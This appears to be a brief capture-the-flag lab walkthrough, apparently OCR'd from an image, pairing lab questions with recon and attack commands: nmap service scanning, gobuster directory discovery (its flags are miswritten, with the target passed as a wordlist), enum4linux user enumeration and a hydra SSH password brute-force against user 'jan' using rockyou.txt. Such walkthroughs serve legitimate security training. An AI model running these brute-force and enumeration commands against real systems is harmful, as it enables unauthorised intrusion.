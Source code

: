 Find the services exposed by the machine?

nmap -sC -sV <machine ip address> 

What is the name of the hidden directory on the web server(enter name without /)?

gobuster dir -w <machine ip address> -w <wordlist of your choice>

User brute-forcing to find the username & password?

enum4linux -e <machine ip address> 

What is the username?

jan

What is the password?

hydra -l jan -P rockyou.txt ssh://<machine ip address>
